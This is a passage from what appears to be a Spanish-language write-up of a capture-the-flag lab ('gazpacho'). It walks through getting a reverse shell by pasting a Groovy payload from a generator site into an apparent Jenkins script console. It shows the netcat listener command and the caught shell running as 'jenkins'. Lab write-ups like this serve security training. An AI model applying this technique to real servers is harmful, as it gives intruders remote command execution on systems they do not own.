 Desde ahí, utilizamos una **Reverse Shell de Groovy** que podemos obtener de la siguiente página web:
* <a href="https://www.revshells.com/" target="_blank">Reverse Shell Generator</a>

Se debe ver así:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura9.png">
</p>

La copiamos y pegamos en la consola.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
Y ejecuta el script.

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.150] 58542

whoami
jenkins
```
Estamos dentro.
